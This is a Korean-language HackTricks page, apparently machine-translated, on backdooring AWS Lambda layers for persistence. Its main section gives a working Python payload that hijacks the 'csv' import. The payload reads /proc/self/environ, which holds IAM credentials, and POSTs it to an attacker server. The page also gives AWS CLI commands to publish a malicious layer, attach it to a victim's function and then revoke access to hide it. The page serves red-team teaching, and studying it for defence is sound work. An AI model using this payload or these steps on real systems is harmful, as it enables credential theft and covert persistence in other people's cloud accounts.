 # AWS - Lambda Layers Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## Lambda Layers

Lambda 레이어는 **추가 코드** 또는 다른 콘텐츠를 포함할 수 있는 .zip 파일 아카이브입니다. 레이어에는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

함수당 최대 **다섯 개의 레이어**를 포함할 수 있습니다. 함수에 레이어를 포함하면 **콘텐츠가 실행 환경의 `/opt` 디렉토리에 추출**됩니다.

기본적으로 생성하는 레이어는 AWS 계정에 **비공개**입니다. 레이어를 다른 계정과 **공유**하거나 레이어를 **공개**로 만들 수 있습니다. 다른 계정이 게시한 레이어를 함수가 사용하는 경우, 레이어 버전이 삭제된 후에도 함수는 레이어를 계속 사용할 수 있으며, 레이어에 대한 액세스 권한이 취소된 후에도 사용할 수 있습니다. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신, 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키지합니다.

### Python 로드 경로

Python이 Lambda에서 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**두 번째**와 세 번째 **위치**는 람다 레이어가 파일을 압축 해제하는 디렉토리로 차지됩니다: **`/opt/python/lib/python3.9/site-packages`** 및 **`/opt/python`**

{% hint style="danger" %}
공격자가 사용 중인 람다 **레이어를 백도어**하거나 **하나를 추가**하여 **일반 라이브러리가 로드될 때 임의의 코드를 실행**하면, 그는 각 람다 호출마다 악성 코드를 실행할 수 있습니다.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* 피해자 코드에서 **로드되는 라이브러리를 확인**합니다.
* 람다 레이어와 함께 **사용자 정의 코드를 실행**하고 **원래 라이브러리를 로드**하는 **프록시 라이브러리를 생성**합니다.

### 미리 로드된 라이브러리

{% hint style="warning" %}
이 기술을 남용할 때 어려움을 겪었습니다: 일부 라이브러리는 파이썬 런타임에서 코드가 실행될 때 **이미 로드**됩니다. `os` 또는 `sys`와 같은 것들을 찾을 것으로 예상했지만, **심지어 `json` 라이브러리도 로드되었습니다**.\
이 지속성 기술을 남용하려면 코드가 실행될 때 **로드되지 않은 새로운 라이브러리를 로드**해야 합니다.
{% endhint %}

다음과 같은 파이썬 코드를 사용하여 람다에서 파이썬 런타임 내에서 **미리 로드된 라이브러리 목록**을 얻을 수 있습니다:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것은 **목록**입니다 (`os` 또는 `json`과 같은 라이브러리가 이미 있는지 확인하세요)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
그리고 이것은 **lambda에 기본으로 설치된 라이브러리 목록**입니다: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

이 예제에서는 대상 코드가 **`csv`**를 가져오고 있다고 가정합니다. 우리는 **`csv` 라이브러리의 가져오기를 후킹**할 것입니다.

이를 위해, 우리는 lambda에서 로드되는 경로인 **`/opt/python/lib/python3.9/site-packages`**에 **`__init__.py`** 파일이 있는 **csv 디렉토리를 생성**할 것입니다.\
그런 다음, lambda가 실행되고 **csv를 로드**하려고 할 때, 우리의 **`__init__.py` 파일이 로드되고 실행**될 것입니다.\
이 파일은 다음을 수행해야 합니다:

* 페이로드 실행
* 원래 csv 라이브러리 로드

우리는 다음과 같이 두 가지를 모두 수행할 수 있습니다:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
그럼, **`python/lib/python3.9/site-packages/__init__.py`** 경로에 이 코드를 포함한 zip 파일을 생성하고 람다 레이어로 추가하세요.

이 코드는 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)에서 찾을 수 있습니다.

통합된 페이로드는 람다 컨테이너의 **첫 번째 실행 시 또는 람다 컨테이너의 재설정 후** (코드 변경 또는 람다의 차가운 상태) IAM 자격 증명을 서버로 **전송**합니다. 하지만 다음과 같은 **기술**도 통합될 수 있습니다:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 외부 레이어

람다 레이어는 **외부 계정의 레이어**를 사용할 수 있습니다. 또한, 람다는 권한이 없어도 외부 계정의 레이어를 사용할 수 있습니다.\
또한, 람다가 가질 수 있는 레이어의 **최대 개수는 5개**입니다.

따라서, 이 기술의 다양성을 향상시키기 위해 공격자는 다음을 수행할 수 있습니다:

* 사용자의 기존 레이어에 백도어를 설치합니다 (외부 요소 없음)
* **자신의 계정에서** **레이어를 생성**하고, **피해 계정에 레이어 사용 권한을 부여**한 다음, 피해 계정의 람다에서 **레이어를 구성**하고 **권한을 제거**합니다.
* 람다는 여전히 레이어를 **사용**할 수 있으며, 피해자는 레이어 코드를 **다운로드**하는 쉬운 방법을 갖지 않습니다 (람다 내부에서 rev 쉘을 얻는 것 외에).
* 피해자는 **`aws lambda list-layers`**를 사용하여 외부 레이어를 볼 수 없습니다.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
